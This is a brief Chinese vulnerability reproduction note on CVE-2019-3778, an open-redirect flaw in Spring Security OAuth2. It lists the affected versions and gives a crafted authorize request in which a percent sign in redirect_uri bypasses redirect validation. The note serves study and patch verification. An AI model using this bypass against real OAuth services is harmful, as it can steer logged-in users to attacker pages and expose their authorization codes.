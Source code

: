 # CVE-2019-3778 Spring Security OAuth2 开放重定向

### 一、漏洞简介

限制条件：

有问题的Spring Security OAuth2版本

oAuth认证使用授权码模式

用户需要在登录的情况下

### 二、漏洞影响

* Spring Security OAuth 2.3 to 2.3.4
* Spring Security OAuth 2.2 to 2.2.3
* Spring Security OAuth 2.1 to 2.1.3
* Spring Security OAuth 2.0 to 2.0.16

### 三、复现过程

用户登录后，CLIENT APP执行的以下请求包含REDIRECT_URI参数。 只需添加一个百分号即可触发重定向，而不是通过RedirectMismatchException错误来绕过验证。

例如原始请求如下：


```bash
/auth/oauth/authorize?response_type=code&client_id=R2dpxQ3vPrtfgF72&scope=user_info&state=HPRbfRgJLWdmLMi9KXeLJDesMLfPC3vZ0viEkeIvGuQ%3D&redirect_uri=http://localhost:8086/login
```

只需要修改为：


```bash
/auth/oauth/authorize?response_type=code&client_id=R2dpxQ3vPrtfgF72&scope=user_info&state=HPRbfRgJLWdmLMi9KXeLJDesMLfPC3vZ0viEkeIvGuQ%3D&redirect_uri=http://%localhost:8086/login
```

这样就不会产生原本的认证错误，而且直接跳转到地址


```bash
Location: http://localhost:8086/login
```
